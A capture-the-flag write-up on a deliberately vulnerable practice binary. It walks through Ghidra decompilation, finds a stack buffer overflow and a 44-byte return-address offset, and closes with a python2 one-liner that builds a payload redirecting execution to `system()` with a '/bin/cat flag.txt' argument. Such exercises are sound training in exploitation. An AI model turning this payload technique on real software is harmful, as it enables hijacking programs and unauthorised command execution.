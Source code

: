 Rahn Stavar
## Write-up:
Like in challenge 1, the `NX` bit is set, and there some interesting function names:
![[Pasted image 20231215174011.png]]
Namely, `usefulFunction` and `pwnme`.
From Ghidra, `pwnme` looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_2c,0x60);
  puts("Thank you!");
  return;
}
```
It contains a buffer overflow vulnerability.
And `usefulFunction` looks like:
```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```
This *is* useful, as it has a call to `system()`, however it does not execute `/bin/cat flag.txt`, which is the goal. So I will need more in order to use this.
Some further recon in Ghidra reveals the exact string I need exists in the binary:
![[Pasted image 20231215174807.png]]
So if I can pass this the the `system()` call in `usefulFunction` and get it to execute I win.
In the disassembly, I can see that the parameter is pushed onto the stack right before `system` is called:
![[Pasted image 20231215175626.png]]
So I just need the address of the  `/bin/cat flag.txt` string to be on the top of the stack when `system` is called. 
Now to create a payload, I need the offset of the return address from the buffer start.
![[Pasted image 20231215175959.png]]
The offset is the same as in Challenge 1, 44 bytes.
So the payload will be of the form:
```
(44 bytes of junk) + (address of call to system()) + (address of usefulString)
```
```bash
python2 -c 'print "\x00"*44 + "\x1a\x86\x04\x08" + "junk" + "\x30\xa0\x04\x08"' > payload.txt
```
![[Pasted image 20231215180605.png]]
As shown in the above picture, using this payload, the exploit was successful and the flag was printed.